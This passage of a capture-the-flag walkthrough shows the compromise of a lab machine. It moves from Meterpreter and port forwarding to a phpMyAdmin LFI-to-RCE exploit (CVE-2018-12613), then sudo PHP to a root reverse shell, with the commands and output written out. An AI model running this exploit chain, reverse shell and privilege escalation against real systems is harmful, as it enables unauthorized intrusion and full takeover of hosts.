> Go to Console in Armitage C2
> Search for: <strong>shell_to_meterpreter</strong>
> Check "Show advanced options
> PAYLOAD_OVERRIDE: <strong>linux/x86/meterpreter/reverse_tcp</strong>
> LPORT: <strong>9999</strong>
> Launch
```


##### Meterpreter > portfwd


```
meterpreter > portfwd add -l 8888 -p 80 -r 127.0.0.1
```


---


##### RUSTSCAN


```
> Let's double check if it worked
```


```
sudo rustscan -a 10.10.142.56 --ulimit 5000 -- -oA scans/ -sC -sV --script vuln,mysql-enum
```


```
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.142.56:1515
<strong>Open 10.10.142.56:8888</strong>
Open 10.10.142.56:16711
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

PORT      STATE SERVICE         REASON         VERSION
1515/tcp  open  ifor-protocol?  syn-ack ttl 63
<strong>8888/tcp  open</strong>  sun-answerbook? syn-ack ttl 63
16711/tcp open  unknown         syn-ack ttl 63
```


---


##### netstat


```
meterpreter > <strong>netstat</strong>

Connection list
===============

    Proto  Local address             Remote addres  State        User  Inode  PID/Program name
                                     s
    -----  -------------             -------------  -----        ----  -----  ----------------
    tcp    127.0.0.1:33060           0.0.0.0:*      LISTEN       113   0
    tcp    127.0.0.1:3306            0.0.0.0:*      LISTEN       113   0
    tcp    127.0.0.1:80              0.0.0.0:*      LISTEN       0     0
    tcp    127.0.0.53:53             0.0.0.0:*      LISTEN       101   0
    tcp    10.10.142.56:40998        10.11.8.178:4  CLOSE_WAIT   1001  0
                                     444
    tcp    10.10.142.56:59268        10.11.8.178:4  ESTABLISHED  1001  0
                                     433
    tcp    10.10.142.56:44012        10.11.8.178:4  ESTABLISHED  1001  0
                                     444
    tcp    :::16711                  :::*           LISTEN       1001  0
    tcp    :::1515                   :::*           LISTEN       1001  0
    tcp    :::<strong>8888</strong>                   :::*           LISTEN       1001  0
    tcp    ::ffff:10.10.142.56:8888  ::ffff:10.11.  CLOSE_WAIT   1001  0
                                     8.178:41332
    udp    127.0.0.53:53             0.0.0.0:*                   101   0
    udp    10.10.142.56:68           0.0.0.0:*                   100   0
```


---


Don't know why but my connection is so poor even with curl I'm not getting a response, wireshark shows GET 200. Let's swap over to [**SOCA**](https://www.redhat.com/sysadmin/getting-started-socat)[**T**](https://www.redhat.com/sysadmin/getting-started-socat)


##### socat


[Get the binaries](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat)


```
# Since it is not on the target, we will host it with a Simple Python HTTP Server
```


```
sudo python3 -m http.server 80
```


```
wget http://YOUR-IP/socat
```


---


```
# Or upload via Meterpreter Session
<strong>upload socat /home/ana</strong>
```


```
./socat TCP4-LISTEN:8887,fork TCP4:127.0.0.1:80
```


---


#### Connect to localhost:8888


##### Port: 8888


```
http://127.0.0.1:8888/

> <strong>phpMyAdmin</strong>
> Remember products.py
    - if not, search for it on this site
```


---


##### We are in !





##### Let's search for exploits !


```
> In Armitage C2 search for: <strong>phpmyadmin</strong>
> exploit > multi > http > <strong>phpmyadmin_lfi_rce</strong>
```





```
> Let's get ready to rumble !
> Change USERNAME to: <strong>app</strong>
> Change PASSWORD to: <strong>redacted</strong>
> Change RHOSTS to: <strong>127.0.0.1</strong>
> Change RPORT to: <strong>8888</strong>
```


---


```
> Or use the exploit <a href="https://nvd.nist.gov/vuln/detail/CVE-2018-12613"><strong>CVE-2018-12613</strong></a>
<strong>wget https://www.exploit-db.com/raw/50457</strong>
```


```
python 50457 127.0.0.1 8888 / app <password>'whoami'
```


```
www-data
```


---


```
python 50457 127.0.0.1 8888 / app <password> 'sudo -l'
```


```
Matching Defaults entries for www-data on forgottenimplant:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on forgottenimplant:
    (root) NOPASSWD: <strong>/usr/bin/php</strong>
```


---


##### We can use PHP as sudo !


```
> Time for a PHP-Reverse-Shell
> Upload the shell via Meterpreter or Python Webserver
```


```
upload php-pentestmonkey.php /home/ada
```


---


##### NETCAT Listener


```
sudo rlwrap -cAr nc -lvnp 5555
```


```
python 50457 127.0.0.1 8888 / app <password> 'sudo /usr/bin/php /home/ada/php-pentestmonkey.php'
```


```
listening on [any] 5555 ...
connect to [10.11.8.178] from (UNKNOWN) [10.10.50.10] 45666
Linux forgottenimplant 5.4.0-146-generic #163-Ubuntu SMP Fri Mar 17 18:26:02 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 01:15:10 up 28 min,  0 users,  load average: 0.03, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
bash: cannot set terminal process group (1318): Inappropriate ioctl for device
bash: no job control in this shell
<strong>root@forgottenimplant</strong>:/#
```


---


##### Get the root.txt


```
<strong>cat /root/.root.txt</strong>
```


- 


